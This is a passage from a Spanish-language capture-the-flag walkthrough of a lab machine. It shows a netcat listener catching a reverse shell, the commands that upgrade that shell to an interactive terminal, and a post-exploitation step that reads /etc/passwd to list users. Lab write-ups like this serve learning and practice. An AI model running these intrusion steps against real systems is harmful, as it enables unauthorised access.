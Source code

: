 * Observa la **netcat**:
```bash
nc -nvlp 443
listening on [any] 443 ...
connect to [Tu_IP] from (UNKNOWN) [192.168.100.150] 48714
bash: cannot set terminal process group (3964): Inappropriate ioctl for device
bash: no job control in this shell
bash: /home/bob/.bashrc: Permission denied
bob@TheHackersLabs-Gyhabogados:~$ whoami
whoami
bob
```
Estamos dentro.

Solo falta obtener una sesión interactiva:
```bash
# Paso 1:
script /dev/null -c bash

# Paso 2:
CTRL + Z

# Paso 3:
stty raw -echo; fg

# Paso 4:
reset -> xterm

# Paso 5:
export TERM=xterm && export SHELL=bash && stty rows 51 columns 189
```


<br>
<br>
<hr>
<div style="position: relative;">
  <h1 id="Post" style="text-align:center;">Post Explotación</h1>
</div>
<br>


<h2 id="Crack7z">Crackeando Archivo 7z y Ganando Acceso al Login de Roundcube</h2>

Antes que nada, veamos qué usuarios existen en la máquina víctima:
```bash
bob@TheHackersLabs-Gyhabogados:~$ cat /etc/passwd | grep 'bash'
root:x:0:0:root:/root:/bin/bash
bob:x:1000:1000:bob,,,:/home/bob:/bin/bash
sam:x:1001:1001::/home/sam:/bin/bash
dean:x:1002:1002:Dean,,,:/home/dean:/bin/bash
john:x:1003:1003:John,,,:/home/john:/bin/bash
```
Tenemos 4 usuarios aparte del **Root**.
